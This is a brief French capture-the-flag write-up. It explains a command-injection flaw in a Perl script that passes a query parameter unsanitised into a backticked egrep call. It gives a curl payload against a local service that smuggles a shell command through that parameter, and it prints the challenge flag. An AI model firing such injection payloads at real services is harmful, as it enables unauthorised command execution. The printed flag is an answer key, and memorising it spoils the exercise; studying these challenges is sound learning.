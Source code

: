 1. En regardant le fichier perl on comprends que son fonctionnement
2. La ligne la plus importante est celle-ci `@output = `egrep "^$xx" /tmp/xd 2>&1`;`
3. On ecrit donc un payload permettant d'exploiter la vulnerabilite
   ```
   curl '127.0.0.1:4646/?x="<.||".'
   ```

> Flag: g1qKMiRpXf53AWhDaU7FEkczr
